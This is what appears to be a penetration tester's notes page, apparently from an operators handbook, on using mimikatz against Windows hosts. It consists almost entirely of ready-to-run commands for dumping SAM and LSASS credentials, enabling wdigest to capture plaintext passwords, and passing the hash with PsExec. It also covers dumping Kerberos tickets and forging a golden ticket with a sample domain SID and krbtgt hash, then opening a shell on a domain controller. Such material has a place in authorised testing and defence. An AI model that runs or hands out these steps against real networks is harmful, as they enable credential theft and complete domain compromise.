 Operators Handbook pg 202
NEEDS LOCAL ADMIN USER / SYTEM ACCESS
#### Old version!
mimikatz 2.1.1 for Win 10 1809-1803
```bash
git clone https://github.com/caday00/mimikatz2.1.1
```
#### New versions!
```bash
https://github.com/gentilkiwi/mimikatz/releases
```
Run CMD / PS as admin before running mimikatz.
#### Password dumps
```
privilege::debug
```
```
token::elevate
```
```
lsadump::sam
```
```
sekurlsa::logonpasswords
```
---
```Batch
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```
```Batch
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```
IF YOU GET THIS ERROR:  Download an older version and try again.
`sekulsa::logonpasswords full`
`ERROR kuhl_m_sekurlsa_acuireLSA ; key import`
Enable wdigest (shows plaintext passwords when a user logs in again)
```
sekurlsa::wdigest
```
#### Pass The Hash
Be sure to have a copy of PsExec on target!
```
sekurlsa::pth /user:$USER /domain:$NETBIOS_DOMAIN_NAME /ntlm:$HASH /run:".psexec \$USER -h cmd.exe"
```
#### TGT and service tickets abuse
```batch mimikatz
sekurlsa::tickets
```
[[4._Service Account Attacks]]
#### Golden Ticket
```batch mimikatz
privilege::debug
```
```batch mimikatz
token::elevate
```
```batch - mimikatz
lsadump::lsa /inject /name:krbtgt
```
We need the SID and NTLM values.
```batch - mimikatz - SID
S-1-5-21-3930179768-1295167970-3814010639
```
```batch - mimikatz - NTLM
9aef958e753aad3426a3b6630e15a671
```
```batch - mimikatz
kerberos::golden /User:fakeuser /domain:marvel.local /sid:S-1-5-21-3930179768-1295167970-3814010639 /krbtgt:9aef958e753aad3426a3b6630e15a671 /id:500
```
```
 kerberos::ptt ticket.kirbi
```
```batch - mimikatz
misc::cmd
```
```
psexec.exe \\dc01 cmd.exe
```
```
whoami
```
```
whoami /groups
```